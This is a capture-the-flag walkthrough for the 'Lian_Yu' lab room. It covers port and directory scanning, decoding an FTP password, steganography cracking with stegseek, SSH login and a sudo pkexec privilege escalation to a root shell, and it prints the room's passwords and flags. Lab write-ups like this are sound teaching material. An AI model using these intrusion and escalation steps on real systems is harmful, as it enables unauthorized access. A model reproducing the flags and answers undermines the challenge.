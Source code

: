 # Lian_Yu

* IP = 10.10.79.242

## Questions/Tasks:

1. Deploy the VM<br>
*No answers needed*

* Nmap Scan Report:
```bash
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.2
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey:
|   1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)
|   2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)
|   256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
|_  256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
80/tcp  open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Purgatory
111/tcp open  rpcbind 2-4 (RPC \#100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          44114/udp   status
|   100024  1          46468/udp6  status
|   100024  1          48522/tcp6  status
|_  100024  1          58311/tcp   status
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

* Gobuster Scan Report:<br>
* Initial
```bash
$ gobuster -u "http://10.10.203.137/" -w directory-list-2.3-small.txt
/island (Status: 301)
```
![Screenshot](./assets/1.png)

* Second
```
$ gobuster -u "http://10.10.203.137/island" -w directory-list-2.3-small.txt
/2100 (Status: 301)

```
* Strange comments found:<br>
![Screenshot](./assets/2.png)
* Third
```
$ gobuster -u "http://10.10.203.137/island/2100" -x ticket -w directory-list-2.3-small.txt
/green_arrow.ticket (Status: 200)
```

2. What is the Web Directory you found?<br>
**Ans-2100**

3. what is the file name you found?<br>
**Ans-green_arrow.ticket**<br>
![Screenshot](./assets/3.png)

4. what is the FTP Password?

* The above code is probably base58
* After decoding-!#th3h00d<br>
**Ans-!#th3h00d**

5. what is the file name with SSH password?

* Login with ftp:
```
username: vigilante
password: !#th3h00d
```
* 3 files are present in home directory:
![Screenshot](./assets/4.png)
* We get all of them, 2 of those looks ok but the *Leave_me_alone.png* was corrupted
* Use hexedit to change the 1st bytes as follows:<br>
*Previous*
```
00000000: 5845 6fae 0a0d 1a0a 0000 000d 4948 4452  XEo.........IHDR
00000010: 0000 034d 0000 01db 0806 0000 0017 a371  ...M...........q
00000020: 5b00 0020 0049 4441 5478 9cac bde9 7a24  [.. .IDATx....z$
00000030: 4b6e 2508 33f7 e092 6466 dea5 557b 6934  Kn%.3...df..U{i4
00000040: 6a69 54fd f573 cebc c03c 9c7e b4d4 a556  jiT..s...<.~...V
00000050: 4955 75d7 5c98 5c22 c2dd 6c3e 00e7 c0e0  IUu.\.\"..l>....
00000060: 4e66 a94a 3d71 3f5e 32c9 085f cccd 60c0  Nf.J=q?^2.._..`.
00000070: c1c1 41f9 7ffe dfff bb2f eb22 fab5 aeab  ..A....../."....
00000080: 7d9d cfe7 f81e 5fcb 49ce ed94 7eb7 d8d7  }....._.I...~...
00000090: 723c c9e9 7492 d3d3 494e c793 9c8f 8b2c  r<..t...IN.....,
```
*After Changing*
```
00000000: 8950 4e47 0a0d 1a0a 0000 000d 4948 4452  .PNG........IHDR
00000010: 0000 034d 0000 01db 0806 0000 0017 a371  ...M...........q
00000020: 5b00 0020 0049 4441 5478 9cac bde9 7a24  [.. .IDATx....z$
00000030: 4b6e 2508 33f7 e092 6466 dea5 557b 6934  Kn%.3...df..U{i4
00000040: 6a69 54fd f573 cebc c03c 9c7e b4d4 a556  jiT..s...<.~...V
00000050: 4955 75d7 5c98 5c22 c2dd 6c3e 00e7 c0e0  IUu.\.\"..l>....
00000060: 4e66 a94a 3d71 3f5e 32c9 085f cccd 60c0  Nf.J=q?^2.._..`.
00000070: c1c1 41f9 7ffe dfff bb2f eb22 fab5 aeab  ..A....../."....
00000080: 7d9d cfe7 f81e 5fcb 49ce ed94 7eb7 d8d7  }....._.I...~...
00000090: 723c c9e9 7492 d3d3 494e c793 9c8f 8b2c  r<..t...IN.....,
```
* But that doesn't change the problem
* Queen's Gambit.png:
![Images](./assets/Queen's_Gambit.png)
* aa.jpg:
![Images](./assets/aa.jpg)

* So trying on the .jpg file, we can find some hidden stuff with steghide/stegseek:
```bash
→ stegseek aa.jpg rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "password"
[i] Original filename: "ss.zip".
[i] Extracting to "aa.jpg.out".

```
* Extracting the ss.zip from aa.jpg and unzipping it we get:
```bash
→ unzip ss.zip
Archive:  ss.zip
  inflating: passwd.txt              
  inflating: shado  
```
* Contents of shado:
```
M3tahuman
```
* Contents of passwd.txt:
```
This is your visa to Land on Lian_Yu # Just for Fun ***


a small Note about it


Having spent years on the island, Oliver learned how to be resourceful and
set booby traps all over the island in the common event he ran into dangerous
people. The island is also home to many animals, including pheasants,
wild pigs and wolves.

```
**Ans-shado**

6. user.txt

* Previously while exploring the ftp server we found the slade user other than vigilante:<br>
![Screenshot](./assets/5.png)
* I tried first with vigilante but didn't succeed.
* SSH into server with:
```bash
ssh slade@$IP
```
* Navigate to user's home and find the flag:<br>
**Ans-THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}**

7. root.txt

* To escalate privileges, first check the commands that can be run with sudo(using the same password, M3tahuman):
```bash
slade@LianYu:~$ sudo -l
[sudo] password for slade:
Sorry, try again.
[sudo] password for slade:
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```
* Search <a href="">Gtfobins</a> for specific privilege escalation technique with pkexec:
```bash
sudo /usr/bin/pkexec /bin/bash
```
* Navigate to /root and find the flag <br>

**Ans-THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}**
